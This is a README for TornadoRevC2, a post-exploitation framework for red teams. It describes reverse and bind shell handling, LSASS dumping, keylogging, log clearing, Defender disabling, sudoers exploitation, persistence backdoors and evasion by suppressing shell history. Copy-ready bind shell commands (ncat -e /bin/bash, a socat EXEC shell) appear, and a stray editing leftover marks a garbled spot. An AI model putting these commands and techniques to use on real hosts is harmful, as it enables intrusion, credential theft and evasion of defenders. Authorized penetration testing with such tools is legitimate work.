

# TornadoRevC2

A lightweight, modular post-exploitation framework for authorized security research, red-team operations, and penetration testing. TornadoRevC2 manages interactive reverse shell and bind shell sessions on Linux and Windows hosts through a unified operator console, across plain TCP, server-authenticated TLS, and mutually authenticated TLS transports. Core session handling is extended by a cross-platform plugin architecture for host enumeration, situational awareness, and operational tasks.

> **Important:** TornadoRevC2 is a session handler and post-exploitation framework—not a beacon-style command-and-control platform. It prioritizes reliable interactive shells, structured operator workflows, and on-demand plugin execution over persistent agent infrastructure.

---

## Legal Notice

Use this software only on systems you own or on systems where you have **explicit written authorization**. You are solely responsible for compliance with applicable laws and organizational policies. The authors and contributors accept no liability for misuse, data loss, or legal consequences arising from the use of this project.

---

## Demo

<p align="center">
  
</p>

<p align="center">
  <strong>Quick demo:</strong> session management, plugin execution, SOCKS5 pivoting.
</p>

---

## Table of Contents

- [Introduction](#introduction)
- [Key Features](#key-features)
- [Design Philosophy](#design-philosophy)
- [Operational Security](#operational-security)
- [Architecture](#architecture)
- [Requirements & Installation](#requirements--installation)
- [Quick Start](#quick-start)
- [Operator Reference](#operator-reference)
- [Built-in Plugins](#built-in-plugins)
- [Plugin Development](#plugin-development)
- [Session Logging](#session-logging)
- [Project Structure](#project-structure)
- [TLS & mTLS Configuration](#tls--mtls-configuration)
- [License](#license)

---

## Introduction

TornadoRevC2 is a modular post-exploitation framework that handles sessions over two transports: **reverse shells** (target dials the handler over plain TCP, server-authenticated TLS, or mutual TLS with client-certificate verification) and **bind shells** (the handler dials the target, over plain TCP or TLS). Both transports produce sessions that flow through the same probe, plugin, transfer, and reporting pipeline — there is no functional difference to the operator once a session is established. The framework provides a unified operator console for session management, host reconnaissance, chunked file transfer, in-memory payload execution, SOCKS5 pivoting, plugin-driven post-exploitation, structured reporting, and a built-in `update` command for automatic Git-based updates and seamless handler restarts. Originally developed as a lightweight reverse shell handler, the project has evolved into an extensible framework in which capabilities such as firewall enumeration, credential store metadata collection, network mapping, browser profiling, and additional post-exploitation functionality are implemented as independent, modular plugins. The framework also includes the `make_token` plugin for establishing new C2 sessions via remote protocols (SSH, WinRM, SMB, WMI, MSSQL, DCOM, and MySQL/MariaDB) using command-line tools from the operator side, and an `upgrade_mtls` plugin that migrates a live session onto the mutual-TLS listener by pushing the handler's client certificate bundle to the target.

**Supported target platforms:** Linux and Windows (primary), with compatibility for generic Unix and BSD environments where applicable.

---

## Key Features

| Category | Capabilities |
|----------|-------------|
| **Session handling** | Multi-client TCP / TLS / mTLS listeners with automatic PKI bootstrapping · On-demand mTLS upgrade for live sessions · **Bind shell support** — dial a target listening on TCP or TLS · Interactive PTY/TTY shells · Session fingerprinting and reconnect tracking |
| **Operational security** | Shell history suppression on Linux and Windows · No `pty.spawn` or `Invoke-Expression` in command paths · Session-scoped probe markers · Jitter between automated commands · PTY upgrade verification (falls back to the original shell when bash handoff fails) |
| **File transfer** | Chunked upload with resume · Chunked download with resume · SHA-256 integrity verification · Optional HTTPS transport for upload (`--https`) and push-style download (`--https-push`), with target-interface binding and callback address override |
| **Payload execution** | In-memory execution for `py`, `ps`, `exe`, `elf`, `bat`, and `sh` — with memfd-based ELF execution (modern and legacy fallbacks) and subsystem-aware PE loading |
| **Pivoting & tunneling** | SOCKS5 proxy through compromised sessions · Windows tunnel agent runs in-memory (C#, no disk artifact); Unix uses a Python agent under `/tmp` · `socks test` requires an already-running proxy and does not deploy the agent implicitly · Soft and hard tunnel reset (`socks reset [--hard]`) · Automatic remote agent cleanup on `socks stop` and session disconnect · Ligolo-NG and Chisel agent deployment with background persistence |
| **Remote session establishment** | `make_token` — establish new sessions over SSH, WinRM, SMB, WMI, MSSQL, DCOM, or MySQL/MariaDB from the operator side, with password / NTLM-hash / SSH-key / WinRM-client-certificate authentication, MySQL UDF auto-loading, custom-command execution, and netexec integration |
| **Impersonation** | `runas` — execute commands or spawn a TLS-encrypted shell as another user, local or remote, with domain support and netexec integration · `steal_token` — list processes and owners, impersonate another process's token, or spawn a cmd / reverse shell running as the token owner |
| **Token privileges** | `enablepriv` — enable, disable, list, or toggle every privilege on the current Windows token via in-memory C# (`AdjustTokenPrivileges`), with `--list` / `--list-all` / `--all` modes |
| **Enumeration** | Covering host triage, detection-environment preflight, network posture, credentials and browser metadata, Kerberos tickets, Linux internals (sudo configuration, writable filesystem targets, restricted-shell detection), Windows domain trusts, WMI persistence, loaded modules, and Windows domain and system configuration |
| **Operational plugins** | Multi-pass secure file wiping · Hybrid file encryption · Shell history clearing · Windows event log clearing · Cross-platform keystroke capture with window context |
| **Persistence** | Cross-platform backdoor installation using TLS-encrypted payloads — cron `@reboot` on Linux/Unix, Run registry on Windows |
| **Extensibility** | Runtime plugin load, reload, unload, and rescan (live discovery — no handler restart) · External plugins via `TORNADOREVC2_PLUGIN_DIR` · Documented `SessionContext` API |
| **Reporting** | Per-session logging · Structured plugin output · HTML transcript export |
| **Self-update** | Git-based `update` command with repository verification, fast-forward pull, and automatic handler restart |

**Not supported:** Task scheduling, or beacon-style callback infrastructure.

---

## Design Philosophy

TornadoRevC2 is engineered for environments where deployment friction and operational footprint matter.

### Dependency-light, native-command design

Plugins leverage **native Windows and Linux utilities and built-in system commands** already present on the target host—`netsh`, `ss`, `iptables`, `ufw`, `firewall-cmd`, `nft`, PowerShell cmdlets, `nmcli`, `wevtutil`, and others. Collectors invoke these tools through the reverse shell channel and parse output remotely, minimizing the need to upload additional binaries or install dependencies.

### Enumeration without artifact drops

**Enumeration plugins execute through the existing reverse shell channel and do not drop binaries, scripts, or temporary files for reconnaissance.** Native commands, inline Python collectors, and in-process PowerShell scripts return structured JSON over the shell. The only unavoidable artifact is normal command history generated by the shell itself — which TornadoRevC2 suppresses at session start (see [Operational Security](#operational-security)).

Operational plugins intentionally place artifacts on the target and document their own cleanup behavior:

- `ligolong` / `chisel` — deploy tunneling agents with background persistence.
- `persistence` — installs a reverse shell backdoor (cron `@reboot` / Run registry).
- `upgrade_mtls` — pushes `client.pem`, `client.key`, and `ca.pem` to the target (removed by default once the new mTLS session is up).
- SOCKS5 pivoting — on Windows, the tunnel agent is compiled in-memory from C# via `Add-Type` inside a detached PowerShell child; no file is written to disk. On Linux/Unix, a Python agent is staged under `/tmp`. In both cases the remote agent is torn down automatically on `socks stop` (when it was the last proxy for the session) and on session disconnect. On Unix, the `/tmp/.tornado_agent_*.py` file is deleted as part of that cleanup.
- Bind shell sessions — no artifact is placed on the target by the handler. The target already runs the listener; the handler only connects and manages the session.

### Graceful degradation

When an enumeration routine fails, is unavailable, or times out, the plugin does not abort entirely. The affected section is left empty or marked `N/A` while the remainder of the report continues.

### Operator-side maintenance

Handler updates are delivered through Git on the operator machine. The `update` command uses bounded subprocess timeouts, non-interactive Git settings, and a fast local shutdown path so the handler can restart reliably without waiting for remote session cleanup to complete.

---

## Operational Security

TornadoRevC2 applies a set of always-on operational security measures across every session. These are not optional flags — they run unconditionally so that even a hurried operator receives the full benefit.

### Shell history suppression

Every session neutralizes its own command history before doing anything else.

**Linux/Unix** — the PTY upgrade path unsets `HISTFILE`, points it at `/dev/null`, zeroes `HISTSIZE` and `HISTFILESIZE`, sets `HISTCONTROL=ignorespace`, and disables the shell's history via `set +o history`. Every subsequent command is space-prefixed where `ignorespace` is honored. Result: `~/.bash_history` receives nothing from the session.

**Windows** — on session init, the handler runs:

```powershell
Set-PSReadlineOption -HistorySaveStyle SaveNothing -ErrorAction SilentlyContinue
```

Result: `%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` receives nothing from the session.

### Command construction discipline

The handler and its plugins avoid command patterns that are widely known as red-team signatures.

- **No `python -c 'import pty; pty.spawn(...)'`.** The PTY upgrade path prefers `socat` when available and otherwise uses `script -qfc` (util-linux) or `script -q /dev/null` (BSD/macOS), all of which are legitimate sysadmin utilities. `pty.spawn` is not. After the upgrade, the handler verifies the session is running bash; if the shell swap failed, `pty` is marked `False` so downstream code does not assume interactive behaviour.
- **No `Invoke-Expression` (IEX).** PowerShell scripts are either sent inline (for short single statements) or wrapped in `[ScriptBlock]::Create(...).Invoke()`. When the payload is too large for a single command line, it is staged to a plausibly-named temp file under `%TEMP%`, executed with `-File`, and deleted immediately.
- **No static probe markers.** The platform and identity probes use per-session randomized markers, so no fixed string appears in command logs or process-creation telemetry.

### Jitter between automated commands

Plugin collectors insert a random 0.5–2.5 s delay at the start of each run and between fallback probes. This breaks the tight command-burst pattern that defenders associate with automated tooling.

### Session log hygiene

Session logs are written through an error-safe path (logging failures never abort a session) and ANSI/OSC/DCS terminal control sequences are stripped from target output so logs remain readable in any editor. Operator commands are stored verbatim.

### PTY verification

The PTY upgrade is verified after send. If the shell swap to bash fails silently — as it does on some Debian-family distributions under `script -qfc` — the handler runs a marker-wrapped `tty` probe and only marks the session as PTY-backed when a real `/dev/pts/*` is attached. Otherwise the session stays in the original shell, and the fallback path (`/bin/bash --noprofile --norc -i`) runs instead. This prevents the "session says PTY, but plugins silently truncate on long command lines" failure mode.

### What this layer does not claim

TornadoRevC2 does **not** claim to evade EDR, AMSI, ScriptBlock logging, or memory forensics. The architecture (reverse/bind-shell channel based post exploitation framework, no compiled implant) has a hard ceiling on what is possible. The measures above reduce forensic footprint and operational risk; they do not make the tool undetectable on a monitored host. Operators should treat every session as potentially observable and follow engagement-specific rules of engagement.

---

## Architecture

```text
┌─────────────────────────────────────────────────────────────────┐
│                     Operator Console (handler)                  │
│  Sessions · Transfers · SOCKS · Plugins · Logging · Export ·    │
│  update                                                         │
└────────────────────────────┬────────────────────────────────────┘
                             │
        REVERSE  TCP / TLS / mTLS        BIND  TCP / TLS
        target ──────────────► handler   handler ──────────────► target
                             │
                             │  (both directions produce
                             │   identical session objects)
                             ▼
┌─────────────────────────────────────────────────────────────────┐
│                        Target Host                              │
│  Native commands · PowerShell · inline collectors               │
│  __T_PLUGIN_START__ + JSON + __T_PLUGIN_END__                   │
└─────────────────────────────────────────────────────────────────┘
```

### Listener Configuration

TornadoRevC2 runs **three independent listeners simultaneously**, so implants can connect over plaintext, server-authenticated TLS, or mutually authenticated TLS depending on the engagement's threat model:

| Listener | Default port | Flag | Authentication | Certificates |
|----------|--------------|------|----------------|--------------|
| TCP      | `4444`       | `-p` | None           | None |
| TLS      | `8443`       | `-tp` | Server-authenticated | `tls_certs/server.pem`, `tls_certs/server.key` |
| mTLS     | `9443`       | `-mp` | Mutual (client cert required) | `mtls_certs/` bundle (CA + server + client) |

The `-H` flag sets the bind address shared by all three listeners. All three can be enabled at once; disabling one is not currently required — leave the port free or unbound to ignore it.

The three listeners handle inbound **reverse shells**. **Bind shells** use the opposite flow — the handler dials a target that is already listening. They are initiated from the main handler prompt with `bind <host> <port>`, over plain TCP or TLS. Bind shell sessions use the same `handle_client` code path as reverse shells, so probes, plugins, file transfers, SOCKS pivoting, and logging all work identically without additional setup. Only the direction flag differs, and it is displayed in `status`.

**Automatic certificate generation.** On first launch the handler creates two isolated directories and bootstraps the material it needs:

```text
tls_certs/
  server.pem          # self-signed server certificate
  server.key          # server private key

mtls_certs/
  ca.pem              # mTLS certificate authority (self-signed, 4096-bit RSA)
  ca.key              # CA private key
  ca.srl              # OpenSSL serial counter (auto-generated)
  server-mtls.pem     # server cert signed by CA
  server-mtls.key     # server private key
  client.pem          # client cert signed by CA — ship to implant
  client.key          # client private key  — ship to implant
```

The bootstrap is **all-or-nothing per bundle**: if every expected file for a bundle already exists, generation is skipped; if any single file is missing, the entire bundle is regenerated. This means deleting one file from `mtls_certs/` invalidates the existing trust chain — remove the whole directory if you want a clean rebuild. If OpenSSL is not on `PATH`, the handler exits during first-run certificate generation.

### Plugin Layout

```text
tornadorevc2/plugins/
  shared/     Cross-platform plugins with internal Windows/Linux implementations
  linux/      Linux/Unix-only plugins and collector builders
  windows/    Windows-only plugins (rdp, services, eventlogdel, …)
  api.py      SessionContext and @plugin.command registration
  manager.py  Runtime loading, execution, and platform filtering
  loader.py   Automatic module discovery
```

**Shared plugins** (`firewall`, `ports`, `browser`, `credstore`, and others) exist as single unified modules in `shared/`. **Platform-specific plugins** such as `rdp` and `eventlogdel` reside exclusively under `windows/` or `linux/` and are not duplicated in `shared/`.

Collectors emit JSON wrapped in marker tokens (`__T_PLUGIN_START__` / `__T_PLUGIN_END__`). The shared runner parses this output, formats an operator-facing report, and persists results under the session log directory.

### SOCKS5 pivoting lifecycle

Each SOCKS proxy runs through a remote tunnel agent that connects back to the handler over a dedicated tunnel listener (default: `revshell_port + 1`) and maintains a pool of channels for stream multiplexing.

Agent transport by platform:

- **Windows** — C# agent compiled in-memory with `Add-Type` inside a detached PowerShell child. No disk artifact is created. Cleanup terminates the child by its `TNB_<token>` process marker.
- **Linux/Unix** — Python agent staged under `/tmp/.tornado_agent_<token>.py` and executed via the interpreter discovered on the target (Python 3 preferred, Python 2 fallback). Cleanup removes both the process and the script file.

The operator controls the tunnel with four commands:

- `socks <listen_port>` — start a SOCKS5 proxy bound to `127.0.0.1:<listen_port>`
- `socks test <host> <port>` — verify TCP reachability through an **already-running** proxy. Does not deploy the agent implicitly; if no proxy exists for the session, the command prints how to start one and returns.
- `socks reset [--hard]` — soft reset (abort relays, purge remote streams, clear buffers, rebalance channels) or hard reset (kill and redeploy the agent for a fully fresh state)
- `socks stop <proxy_id>` — stop a proxy; if it was the last proxy on the session, the remote agent is terminated and any on-disk artifact (Unix only) is removed from the target

The agent is **shared across proxies on the same session** and is cleaned up only when the last proxy on that session stops or the session disconnects.

---

## Requirements & Installation

**Handler (operator machine):**

- Python 3.7 or later
- OpenSSL (for automatic TLS and mTLS certificate generation)
- Git (optional; required for the `update` operator command)
- No third-party Python packages required

```bash
git clone https://github.com/kamalx06/TornadoRevC2.git
cd TornadoRevC2
python3 tornadorevc2.py
```

---

## Quick Start

### 1. Start the handler

```bash
# Default: TCP on 4444, TLS on 8443, mTLS on 9443
python tornadorevc2.py

# Custom bind address and ports for all three listeners
python tornadorevc2.py -H 0.0.0.0 -p 4444 -tp 8443 -mp 9443

# Point to your own certificate material
python tornadorevc2.py \
  -c tls_certs/server.pem -k tls_certs/server.key \
  --mtls-ca-cert mtls_certs/ca.pem --mtls-ca-key mtls_certs/ca.key \
  --mtls-server-cert mtls_certs/server-mtls.pem --mtls-server-key mtls_certs/server-mtls.key \
  --mtls-client-cert mtls_certs/client.pem --mtls-client-key mtls_certs/client.key
```

### 2. Establish a session

Two ways to get a session:

**Reverse shell** — deploy a payload from the built-in catalog (`payloads`) or use your own implant. The target connects to one of the three listeners (Defaults: TCP `4444`, TLS `8443`, mTLS `9443`).

**Bind shell** — the target runs a listener (for example `nc -lvnp 4444 -e /bin/bash` or `ncat --ssl -lvnp 4444 -e /bin/bash`). From the handler prompt:

```bash
bind 10.10.14.7 4444              # plaintext bind
bind 10.10.14.7 4444 --tls        # TLS-wrapped bind

### 3. Operate

```bash
status                            # List active sessions
switch 1                          # Attach to session 1
sysinfo 1                         # Collect host metadata
run credstore 1                   # Credential store metadata
run memorymap 1 1234              # Process memory maps (requires PID)
run inmemory 1 sh ./linpeas.sh    # In-memory script execution
run upgrade_mtls 1 --port 9443    # Migrate session to the mTLS listener
upload --https eth0 1 ./tool "C:\Temp\tool.exe"       # HTTPS upload
download --https-push 1 /var/log/auth.log ./auth.log  # HTTPS push download
update                            # Pull latest from GitHub and restart (Git installs)
```

When attached via `switch <ID>`, omit the session ID from subsequent commands (`run quickenum` instead of `run quickenum 1`). Plugin listings and TAB completion inside a client session are filtered to plugins compatible with that session's platform.

The `update` command is available from the main handler prompt only. It verifies that Git is installed, confirms the installation is a Git working tree, fetches from the configured remote, fast-forward pulls when updates exist, and restarts the handler with the same executable and arguments. If the installation is already current, it prints `TornadoRevC2 is already running the latest version.` and leaves the server running.

---

## Operator Reference

### Session management

| Command | Description |
|---------|-------------|
| `status` / `ls` | List active sessions (reverse and bind). The transport and direction are shown examples — `TCP/REV`, `TLS/REV`, `TCP/BIND`, `TLS/BIND`. |
| `sessions` | Show tracked sessions, including disconnected hosts |
| `reconnects` | Display session reconnect history |
| `switch <ID>` | Attach to an interactive session shell |
| `kill <ID>` | Terminate a session |
| `rename <ID> <name>` / `rn <ID> <name>` | Assign a friendly name |
| `sysinfo <ID> [--stealth\|--full]` | Collect or refresh host information |
| `export <ID>` | Export an HTML session transcript |

### Bind shells

Bind sessions dial outward to a target that is already listening. Once connected, the session behaves identically to a reverse shell — same probes, same plugins, same transfers, same logging. Only the direction flag differs.

| Command | Description |
|---------|-------------|
| `bind <host> <port>` | Dial a plaintext bind shell |
| `bind <host> <port> --tls` | Dial a TLS-wrapped bind shell (target must speak TLS — `ncat --ssl`, `socat OPENSSL-LISTEN`, or a custom TLS bind stub) |
| `bind <host> <port> --tls --verify` | Same, but validate the target certificate against the system trust store |

**Example target-side listeners:**

```bash
# Linux — plaintext bind shell with a PTY
ncat -lvnp 4444 --exec "/bin/bash --noprofile --norc -i"

# Linux — TLS-wrapped bind shell (self-signed cert)
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 1 -nodes -subj "/CN=x"
cat cert.pem key.pem > server.pem
socat OPENSSL-LISTEN:4444,reuseaddr,fork,cert=server.pem,verify=0 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

# Windows — plaintext via ncat
ncat.exe -lvnp 4444 -e cmd.exe
```

### Plugins

| Command | Description |
|---------|-------------|
| `plugins` / `plugins list` | List registered plugins |
| `plugins list --verbose` | Show module paths and load state |
| `plugins load <name>` | Load a plugin at runtime (builtin or external) |
| `plugins unload <name>` | Disable or unload a plugin |
| `plugins reload <name>` | Reload a plugin module |
| `plugins rescan` | Re-scan `shared/`, `linux/`, `windows/`, and external plugin directories. Loads any new modules found and enables their commands. No handler restart required. |
| `plugins info <name>` | Display plugin metadata |
| `run <plugin> <ID> [args...]` | Execute a plugin against a session |

### File transfer

All transfer commands accept a `--resume` flag (`-r`) to continue an interrupted upload or download from where it stopped. Resume is verified against the destination: the tail of the partially written file is compared byte-for-byte with the source, and the transfer restarts cleanly if the check fails.

| Command | Description |
|---------|-------------|
| `upload [--resume] <ID> <local> <remote>` | Upload with chunked transfer |
| `upload --https [iface] [-RH host[:port]] [--resume] <ID> <local> <remote>` | Upload over HTTPS |
| `download [--resume] <ID> <remote> <local>` | Download with chunked transfer |
| `download --https-push [iface] [-RH host[:port]] <ID> <remote> <local>` | Download over HTTPS — the handler runs a one-shot HTTPS upload endpoint and the target PUTs the file to it |
| `verify <ID> <remote>` / `hash <ID> <remote>` | Verify remote file size and SHA-256 |

**HTTPS flags:**

| Flag | Description |
|------|-------------|
| `--https` | **Upload only.** Use HTTPS transport instead of the default chunked/line-based path |
| `--https-push` | **Download only.** Handler starts an HTTPS upload server; the target pushes the file to it |
| `--https <iface>` / `--https-push <iface>` | Bind the operator-side HTTPS server to the named interface (e.g. `eth0`, `tun0`) or IP address. Default: `0.0.0.0` |
| `-RH <host>[:<port>]` | Host and/or port the target should connect back to. Useful when the target reaches the handler through a NAT or redirector. Default: auto-detected from the bind interface or the reverse shell's local endpoint |

Both HTTPS transports use the handler's existing `tls_certs/server.pem` and `tls_certs/server.key` — no additional certificates are generated. Targets skip certificate verification (self-signed cert). On Windows, the target tries `curl.exe -T` first, then `WebClient.UploadFile(... 'PUT' ...)` for push, or `Invoke-WebRequest` with `-SkipCertificateCheck` on PowerShell 6+ and a `ServerCertificateValidationCallback` shim on 5.1 for pull. On Linux and Unix, the target command chain tries `curl -k`, then `wget --no-check-certificate`, then `python3` or `python` with an unverified SSL context.

**Resume is not supported** for either HTTPS transport (`--https` upload or `--https-push` download). Passing `--resume` prints a warning and performs a full transfer. Use the default chunked paths (`upload --resume` / `download --resume`) when resume is required.

**Remote path resolution:** if the remote path refers to a directory (either ends with a separator, or exists as a directory on the target), the local file's basename is appended automatically. So `upload 1 ./report.md /tmp/` writes to `/tmp/report.md`, and `upload 1 ./report.md C:\Users\Alice` writes to `C:\Users\Alice\report.md`.


**REPLACE WITH:**

```markdown
**Example:**

```bash
# Default transport (line-based on Windows, chunked on Linux)
upload 1 ./tool.exe "C:\Temp\tool.exe"

# HTTPS upload, bind to eth0, advertise a public IP:port to the target
upload --https eth0 -RH 203.0.113.5:8443 1 ./tool.exe "C:\Temp\tool.exe"

# HTTPS upload with resume (warning printed; full upload performed)
upload --https --resume 1 ./big.iso "C:\Temp\big.iso"

# Default chunked download with resume
download --resume 1 /var/log/auth.log ./auth.log

# HTTPS push download — handler hosts the endpoint, target PUTs the file
download --https-push 1 /home/kamal/Documents/archive.zip ./archive.zip

# HTTPS push download bound to a specific interface, with a reachable callback
download --https-push eth0 -RH 203.0.113.5:9444 1 /var/log/auth.log ./auth.log

# Passing a directory as <local> appends the remote file's basename
# → writes ./logs/auth.log (dir created if missing)
download --https-push 1 /var/log/auth.log ./logs
```

### In-memory execution

| Command | Description |
|---------|-------------|
| `run inmemory <ID> <type> <local_file> [-- args] [--save-output <file>]` | Execute payload in memory |

Supported types: `py`, `ps`, `exe`, `elf`, `bat`, `sh`

### Network pivoting

| Command | In-session form | Description |
|---------|-----------------|-------------|
| `socks <ID> <listen_port>` | `socks <listen_port>` | Start a SOCKS5 proxy through a session (local listener on `127.0.0.1:<listen_port>`). Deploys the tunnel agent on first use. |
| `socks <ID> test <host> <port>` | `socks test <host> <port>` | Test TCP reachability to an internal host through an existing proxy. Requires a proxy already running for the session; will not deploy the agent. |
| `socks <ID> reset` | `socks reset` | **Soft reset** — abort local relays, purge remote streams, clear buffers, and rebalance channels. Active SOCKS listeners remain bound. |
| `socks <ID> reset --hard` | `socks reset --hard` | **Hard reset** — kill and redeploy the remote tunnel agent for a fully fresh state. |
| `socks <ID> stop [<proxy_id>]` | `socks stop <proxy_id>` | Stop a SOCKS proxy for the session. With no `<proxy_id>`, stops every proxy owned by that session. When the last proxy on a session stops, the remote agent is terminated and any on-disk artifact (Unix only) is removed. |
| `socks stop <proxy_id>` | — | Stop a proxy by ID from the main menu, regardless of session. |
| `tunnels` | `tunnels` | List active SOCKS proxies, session ID, channel count, and status. |

### General

| Command | Description |
|---------|-------------|
| `bind <host> <port> [--tls] [--verify]` | Dial a target listening for a bind shell |
| `payloads` | Display the built-in payload reference |
| `update` | Check for updates from the official GitHub repository and restart after a successful fast-forward pull (requires Git; main menu only) |
| `help` | Show the command reference |
| `exit` / `quit` | Shut down the handler |

---

## Built-in Plugins

TornadoRevC2 ships with **63 built-in plugins** organized by function. All enumeration-related plugins are read-only unless noted otherwise.

### Host assessment & environment

| Plugin | Platform | Description |
|--------|----------|-------------|
| `quickenum` | Cross-platform | Fast structured host triage: identity, network, environment, prioritized findings |
| `virtualization` | Cross-platform | Virtualization, container, orchestration, and cloud environment detection |
| `kernel` | Cross-platform | Kernel version, loaded modules/drivers, security mitigations, and kernel configuration |
| `integrity` | Cross-platform | Secure Boot, BitLocker/LUKS, code-signing enforcement, kernel lockdown, and integrity protections |
| `filesearch` | Cross-platform | Search files by path, name, ext, size, owner, mtime (`run filesearch help` for options) |
| `packages` | Cross-platform | Installed software, package managers, repository configuration, and recent installs |
| `kerberosenum` | Cross-platform | Kerberos ticket metadata: caches, default principal, realm, TGT, service tickets, encryption types, flags (renewable/forwardable), keytab files, krb5.conf/registry config, and environment variables (no secrets) |
| `preflight` | Cross-platform | Detection environment assessment: EDR/AV process scan (~45 known agents), PowerShell logging state (ScriptBlock, Module, Transcription), AMSI presence, Sysmon, LSA protection, Credential Guard (see `lsa` plugin for full LSA/DPAPI/LSA-secrets posture), Credential Guard, Defender realtime, Linux auditd rules, eBPF activity, SELinux/AppArmor, SSH session recording, PROMPT_COMMAND hooks. Renders a risk-assessment block before raw data. |

> `sysinfo` is a handler command, not a plugin — see [Session management](#session-management).

### Network & connectivity

| Plugin | Platform | Description |
|--------|----------|-------------|
| `firewall` | Cross-platform | Firewall status, profiles/zones, policies, and notable rules (WDF, UFW, firewalld, nftables, iptables) |
| `ports` | Cross-platform | Listening ports, established connections, owning processes, and routing |
| `netscan` | Cross-platform | Fast TCP connect scan of hosts and CIDRs. `--ip` accepts a single IP, a comma/space-separated list, or a CIDR (`10.0.0.0/24`). `--port` accepts nmap-style specs: `top10` / `top100` / `top1000` presets, ranges (`1-500`), lists (`22,80,443`), or mixed (`22,80,1000-2000`). Linux collector uses an asyncio non-blocking socket pool auto-tuned to `RLIMIT_NOFILE`; Windows collector uses a runspace pool plus batched parallel `BeginConnect` per host. Target expansion capped at 4096 hosts |
| `proxy` | Cross-platform | System, environment, PAC/WPAD, and browser proxy settings |
| `vpn` | Cross-platform | VPN clients, active connections, adapters, and configuration metadata |

### Credentials, browsers & applications

| Plugin | Platform | Description |
|--------|----------|-------------|
| `credstore` | Cross-platform | Credential store metadata (no secret extraction): Credential Manager, keyrings, browser stores |
| `lsassdump` | Windows | LSASS minidump via `MiniDumpWriteDump` (full-memory flags). Three techniques, tried in order: direct `OpenProcess`, handle duplication (`--duplicate`), and `NtCreateSection` + `NtCreateProcessEx` fork (`--fork`) for PPL-protected LSASS. `--elevate` toggles the `SeDebugPrivilege` acquisition step. The dump is staged at `%TEMP%\\lsass.dmp` on the target and **downloaded to the operator automatically** using a single-PowerShell-process streaming transfer with in-line SHA-256 hashing — no separate `download` step required. `--out <path>` sets the **operator-side** destination (default `./lsass.dmp`). |
| `browser` | Cross-platform | Installed browsers, profiles, extensions, bookmarks, and enterprise policies |
| `clipboard` | Cross-platform | Remote clipboard text capture |
| `secrets` | Linux/Unix | Configuration files, environment variables, SSH keys, and cloud credentials |

### Host internals

| Plugin | Platform | Description |
|--------|----------|-------------|
| `history` | Cross-platform | Shell history, package/update logs, and recent login activity |
| `mounts` | Cross-platform | Mount points, SMB/NFS shares, mapped drives, container filesystems |
| `memorymap` | Cross-platform | Process memory maps and loaded modules for a specified PID |
| `screenshot` | Cross-platform | Desktop capture returned to the operator (GUI sessions; PNG saved locally) |
| `cron` | Linux/Unix | Cron jobs, system crontabs, user crontabs, and at queues |
| `systemd` | Linux/Unix | Services, timers, failed units, and enabled startup units |
| `privbins` | Linux/Unix | SUID/SGID binaries, file capabilities, and privilege-escalation-relevant executables |
| `lsm` | Linux/Unix | SELinux, AppArmor, and other Linux Security Modules: enforcement mode, policies, and configuration |
| `journal` | Linux/Unix | Structured journalctl summaries: authentication, kernel, service failures, and recent events |
| `sshaudit` | Linux/Unix | SSH server enumeration: effective sshd config, auth surface, pivoting options, host keys, authorized_keys, and CA trust |
| `containers` | Linux/Unix | Container runtimes and workloads: Docker, Podman, containerd, CRI-O, LXC/LXD, and Kubernetes indicators |
| `sudoers` | Linux/Unix | Sudo configuration audit and NOPASSWD exploitation. `-eu` reports sudo binary mode and setuid bit, parsed version with CVE matching (CVE-2021-3156, CVE-2021-23239, CVE-2019-14287, CVE-2019-18634, CVE-2023-22809), `sudo -n -l` rights, NOPASSWD entries, readable `/etc/sudoers` and `sudoers.d`, aliases (User/Runas/Host/Cmnd), Defaults directives, include directives, `/etc/sudo.conf`, and the sudo timestamp directory. `-exp` appends `<user> ALL=(ALL) NOPASSWD: ALL` when `/etc/sudoers` is writable, with baseline visudo comparison and authoritative `sudo -n -l` verification |
| `rshell` | Linux/Unix | Restricted-shell detection and escape automation. `-chk` reports shell kind, parent process, and six restriction probes (cd, PATH, redirection, absolute exec, slash-in-command). `-list` shows the escape method catalog with a single-round-trip binary probe. `-run <id>` executes one method. `-auto` tries runnable methods in order of reliability and reports what succeeded, what was skipped, and what remains manual. Editor methods run in Ex mode and spawn a TLS reverse shell via `-rh` / `-rp` without hijacking the operator's PTY |
| `writable` | Linux/Unix | Writable filesystem audit: PATH directories and writable binaries, cron locations, systemd units, init scripts, profile scripts, ld.so config, `/etc/passwd` / `/etc/shadow`, logrotate, mail spools, and Docker socket. Produces a `findings` array with `kind` + `path` per entry |
| `usersessions` | Cross-platform | Active local, remote, SSH, RDP, console, and service sessions with login/source metadata |

### Windows domain & system

| Plugin | Platform | Description |
|--------|----------|-------------|
| `adinfo` | Windows | Domain membership, domain controllers, forests, trusts, and OUs |
| `services` | Windows | Windows services, startup types, binaries, and service accounts |
| `scheduledtasks` | Windows | Scheduled tasks, triggers, execution context, and actions |
| `registry` | Windows | Autorun keys, startup locations, and installed software |
| `eventlogs` | Windows | Security, System, Application, and PowerShell log summaries |
| `defender` | Windows | Windows Defender status, exclusions, preferences, ASR rules, threats, AV products, services, and Exploit Protection config. `-d/--disable` attempts a full disable (admin required). |
